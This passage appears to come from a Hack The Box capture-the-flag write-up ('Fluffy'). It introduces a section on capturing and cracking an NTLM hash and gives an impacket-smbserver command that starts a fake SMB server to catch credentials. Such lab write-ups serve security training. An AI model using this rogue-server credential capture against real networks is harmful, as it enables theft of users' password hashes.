 ![](/assets/images/htb-writeup-fluffy/fluffy17.png)

## Capturing and Cracking the Hash

Now we need to set up a listener to capture the incoming NTLM hash. We can use `impacket-smbserver` for this purpose. It will start a fake SMB server on our machine.

```bash
sudo impacket-smbserver -smb2support share .
```